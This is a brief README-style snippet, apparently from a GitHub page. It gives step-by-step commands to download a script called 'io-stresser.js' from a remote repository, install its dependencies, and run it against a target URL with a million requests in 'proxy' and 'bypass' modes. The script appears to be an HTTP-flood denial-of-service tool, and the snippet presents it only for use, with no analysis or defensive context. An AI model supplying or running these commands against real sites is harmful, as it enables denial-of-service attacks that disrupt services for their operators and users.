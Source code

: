 wget https://raw.githubusercontent.com/tienquan2019/2022/main/io-stresser.js

npm install axios

npm install request

npm install fake-useragent

node io-stresser.js

node io-stresser.js https:// 1000000 5 proxy

node io-stresser.js https:// 1000000 5 bypass
